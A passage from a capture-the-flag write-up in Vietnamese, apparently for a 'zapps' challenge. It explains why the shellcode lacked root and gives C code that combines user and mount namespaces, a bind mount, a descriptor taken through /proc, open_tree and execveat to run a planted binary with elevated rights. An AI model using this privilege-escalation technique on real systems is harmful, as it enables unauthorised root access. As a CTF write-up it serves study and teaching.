 
![image](https://github.com/robbert1978/robbert1978.github.io/assets/31349426/e488a0d1-392b-41f3-a9cf-b5f2c250d1e4)

Hmm, file `exe` đã thực thi shellcode, tuy nhiên chúng ta lại không có quyền root.

Sau một hồi, mình nhận ra fd_root vẫn nằm trong namespace của con, để có một file descriptor trong namespace cha, ta tiếp tục sử dụng `open_tree`.

```c
#define _GNU_SOURCE
#include <errno.h>
#include <fcntl.h>
#include <linux/mount.h>
#include <linux/securebits.h>
#include <sched.h>
#include <stdarg.h>
#include <stdbool.h>
#include <stdlib.h>
#include <stdio.h>
#include <sys/mount.h>
#include <sys/syscall.h>
#include <sys/wait.h>
#include <unistd.h>

int main(int argc,char** argv, char** envp){
    int ret;
    int pid = fork();
    if(!pid){
        if (unshare(CLONE_NEWNS|CLONE_NEWUSER))
            perror("unshare");
        if (mount("none", "/", NULL, MS_REC | MS_PRIVATE, NULL) < 0)
            perror("mount none /");
        if (mount("/usr/lib/zapps/build", "/home/user", NULL, MS_BIND, NULL));
            perror("mount build");
        int fd_root = open("/",O_PATH);
        if(fd_root < 0)
            perror("open /");
        printf("fd_root = %d\n",fd_root);
        getchar();
        exit(0);
    }
    sleep(5);
    char path[0x60];
    sprintf(path,"/proc/%d/fd/3",pid);
    int fd_root = open(path,O_PATH);
    printf("fd_root = %d\n",fd_root);
    int fd = syscall(SYS_open_tree,fd_root,"",AT_EMPTY_PATH | AT_RECURSIVE | OPEN_TREE_CLONE);
    if(fd < 0)
        perror("open_tree");
    syscall(SYS_execveat, fd, "home/user/exe", NULL, NULL, 0);
    return 0;
}
```
